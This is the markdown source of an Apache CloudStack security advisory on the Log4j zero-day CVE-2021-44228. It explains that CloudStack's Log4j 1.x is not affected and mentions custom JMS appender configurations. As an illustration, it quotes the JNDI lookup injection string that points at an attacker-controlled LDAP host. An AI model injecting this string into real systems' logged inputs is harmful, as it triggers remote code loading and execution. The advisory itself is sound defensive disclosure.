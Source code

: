 ```yaml
---
layout: post
title: CloudStack Advisory on Apache Log4j Zero Day (CVE-2021-44228)
tags: [announcement]
authors: [rohit]
slug: log4jshell
---
```

On 9th December 2021, a new zero-day vulnerability for Apache Log4j was reported. It is by now tracked under CVE-2021-44228:
<a href="https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228">https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228</a>.

CVE-2021-44228 vulnerability is classified under the highest severity mark and allows an attacker to execute arbitrary code by injecting a sub-string in the form "${jndi:ldap://some.attacker-controlled.site/}" into a logged message. Apache Log4j 2.x is reported to be affected as it performs a lookup (string substitution) using the JNDI protocol, whenever the "${jndi:...}" string is found within a message parameter.

The Apache <a href="https://github.com/apache/logging-log4j2/pull/608#issuecomment-990494126">Log4j developers</a> and the <a href="http://slf4j.org/log4shell.html">SLF4J project advisory</a> confirm that Apache Log4j 1.x does not offer a look-up mechanism and does not suffer remote code execution (RCE) vulnerability from CVE-2021-44228.

All Apache CloudStack releases since v4.6 use Apache Log4j version 1.2.17 and therefore are not affected by this RCE vulnerability. Most users who haven't changed the default log4j xml config don't need to do anything, advanced users can check and fix their log4j xml configuration if they're using any custom JMS appenders.

The Apache CloudStack project will consider migrating to a different version of Apache Log4j in future releases.
